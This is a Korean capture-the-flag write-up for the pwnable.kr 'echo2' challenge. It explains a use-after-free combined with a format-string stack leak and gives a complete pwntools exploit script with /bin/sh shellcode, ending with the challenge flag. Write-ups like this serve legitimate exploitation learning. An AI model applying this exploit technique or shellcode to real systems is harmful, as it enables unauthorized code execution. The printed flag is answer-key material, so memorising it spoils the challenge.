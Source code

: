# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-20-20-31-44.png)


# **Write-Up**

파일 정보를 확인하자.

```sh
root@ubuntu:~# checksec echo2
[*] '/root/echo2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

서버에 접속하면 BOF echo는 not supported 상태이고 FSB와 UAF echo는 작동한다.

```
nc64.exe pwnable.kr 9011
hey, what's your name? : aa

- select echo type -
- 1. : BOF echo
- 2. : FSB echo
- 3. : UAF echo
- 4. : exit
> 1
not supported
```

o객체의 초기화 과정을 보자.

처음 40byte를 할당 받고, 다음과 같은 구조를 가진다.

||||
|:--:|:--:|:--:|
|24byte|greetings addr(8byte)|byebye addr(8byte)|

![](images/2022-01-20-21-27-14.png)

그 이후 name을 입력받는 데, 24글자를 받고 이를 o객체의 24byte에 넣고, echo1문제와 마찬가지로 id에는 첫 4byte만 넣는다.

![](images/2022-01-20-21-30-33.png)

exit를 하면 cleanup함수를 호출한다. cleanup함수에는 free를 호출한다.

![](images/2022-01-20-21-32-57.png)

이후 "Are you sure you want to exit? (y/n)"이 나오면 n을 누른 뒤 다시 UAF echo를 들어가면 32byte를 할당하는데

이는 o객체의 name(24byte)와 greetings addr(8byte)를 할당받아 오버라이트 할 수 있다.

![](images/2022-01-20-20-48-41.png)

FSB echo도 32byte를 받는데 EBP의 주소를 확인할 수 있다.

    %X%X%X%X%X%X%X%X%X %llX

![](images/2022-01-20-21-08-58.png)

o객체가 아닌 초기에 입력받는 name의 스택주소는 EBP - 0x20이기 때문에 FSB echo를 통해 name의 주소를 확인할 수 있다.

![](images/2022-01-20-21-47-17.png)

따라서 Payload는 다음과 같다.

    1. name : Shell Code (< 24byte)
    2. FSB echo를 이용하여 %X%X%X%X%X%X%X%X%X %llX를 전달하여 EBP 주소 얻기
    3. exit을 이용하여 o객체 free
    4. UAF echo를 이용하여 greetings 주소를 name의 주소(EBP - 0x20)로 덮기
    5. greetings 호출

FLAG를 얻어내자.

```py
from pwn import *

FSB         = "%X%X%X%X%X%X%X%X%X %llX"
#shell_code  = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
SHELL_CODE  = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"

r = remote('pwnable.kr', 9011)
r.recvuntil('hey, what\'s your name? : ')
r.sendline(SHELL_CODE)

r.recvuntil('> ')
r.sendline('2')
r.recvuntil(SHELL_CODE + '\n')
r.sendline(FSB)
EBP         = int(r.recvline().split()[-1].decode(), 16)
NAME_ADDR   = p64(EBP - 0x20)

r.recvuntil('> ')
r.sendline('4')
r.recvuntil('Are you sure you want to exit? (y/n)')
r.sendline('n')

r.recvuntil('> ')
r.sendline('3')
r.recvline()
PAYLOAD     = b'A' * 24
PAYLOAD     += NAME_ADDR
r.sendline(PAYLOAD)

r.recvuntil('> ')
r.sendline('1')
r.sendline('cat flag')
r.recvline()
print(r.recvline().decode().strip())
```


# **FLAG**

**fun_with_UAF_and_FSB :)**